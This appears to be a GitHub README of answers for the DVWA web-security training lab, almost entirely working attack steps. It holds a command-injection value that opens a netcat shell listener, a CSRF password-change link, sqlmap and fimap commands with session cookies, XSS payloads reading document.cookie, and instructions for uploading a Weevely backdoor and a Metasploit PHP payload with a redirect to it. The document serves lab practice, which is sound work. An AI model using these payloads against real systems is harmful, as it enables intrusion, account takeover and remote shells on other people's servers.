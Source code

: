 # DVWA-Answers

### Command Execution:
10.0.0.1 & nc -l 4444
then connect with your machine: nc <ip> <port>

### CSRF you can send this link to an admin user or xss it:
http://10.195.2.2/dvwa/vulnerabilities/csrf/?password_new=asd123&password_conf=asd123&Change=Change#

### File Inclusion:
fimap -u 'http://10.195.2.2/dvwa/vulnerabilities/fi/?page=include.php' --cookie='security=medium; PHPSESSID=43e836347ea74c7e3bc51f9a321bee24' -x

### SQLi + SQLi Blind:
Put a number in the user ID and capture it with burp, save the capture to a file then run this it shows the method used to extract info.
sqlmap -r /root/Desktop/dvwa -a
or
sqlmap -u 'http://10.195.2.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie='security=medium; PHPSESSID=43e836347ea74c7e3bc51f9a321bee24' -a

### Unrestricted File Upload:
Use Weevely to create a backdoor and rename it back.php.jpg then upload it and connect to it with Weevely.  If it doesn't tell you where it uploads use Burpsuite to spider the site.

### XSS reflected (low):
<script>alert("TesT")</script>
<script>alert(document.cookie)</script>

### XSS stored (low):
<script>alert("TesT")</script>
<script>alert(document.cookie)</script>
http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson9/
You can upload a metasploit php payload and put it in <script>window.location="http://192.168.1.106/dvwa/hackable/uploads/FORUM_BUG.php" </script> and set up a listener




